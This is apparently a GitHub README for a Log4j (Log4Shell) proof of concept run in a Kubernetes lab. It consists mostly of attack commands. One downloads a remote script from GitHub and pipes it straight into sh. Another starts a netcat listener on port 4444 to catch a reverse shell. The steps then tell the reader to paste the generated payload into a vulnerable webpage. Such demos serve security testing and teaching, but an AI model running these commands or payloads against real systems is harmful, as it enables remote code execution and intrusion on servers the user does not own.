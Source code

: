 # log4j-poc in kubernetes environment

Terminal 1:
- `apt-get update && apt-get install -y wget;wget -q -O - https://raw.githubusercontent.com/nandakrr/log4j-poc/main/run.sh | sh`

Terminal 2:
- `kubectl exec -it nc-pod -- nc -lvnp 4444`

Terminal 3:
- `kubectl get all | grep java-ms-svc | awk '{print $4}'`

1. Copy&paste the output of terminal 3 in the browser.
2. Copy&paste the payload generated by terminal 1 in the webpage.
3. Now check the terminal 2, you may get the reverse shell if application is vulnerable to log4j
